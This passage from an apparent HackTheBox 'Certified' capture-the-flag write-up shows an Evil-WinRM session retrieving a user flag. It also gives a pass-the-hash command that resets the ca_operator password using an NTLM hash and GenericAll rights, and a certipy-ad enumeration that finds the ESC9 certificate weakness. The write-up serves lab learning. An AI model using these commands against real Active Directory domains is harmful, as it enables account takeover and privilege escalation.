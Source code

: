 ~~~ shell 

*Evil-WinRM* PS C:\Users\management_svc> cd Desktop
*Evil-WinRM* PS C:\Users\management_svc\Desktop> dir


Directory: C:\Users\management_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/12/2025   6:45 PM             34 user.txt


*Evil-WinRM* PS C:\Users\management_svc\Desktop> cat user.txt
88b1cf0c09541ed4f0d941a36a9*****
~~~

## Authenticate with Certificate

Add `DC01.certified.htb` into `/etc/hosts` file.

I discovered that management_svc had **GenericAll** rights over ca_operator. So, I try change ca_operator password.


~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$ pth-net rpc password "ca_operator" "1122334455" -U "certified.htb"/"management_svc"%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584"  -S "DC01.certified.htb"
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
~~~

Right after running the command you get a `.json` file open it and find NoSecurityExtension in the **Enrollment Flag** section. So `ESC9` can be used for attack.

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$ certipy-ad find -u judith.mader@certified.htb -p judith09 -dc-ip 10.10.11.41
~~~ 

![](/assets/img/sample/certified/enrollment.png)

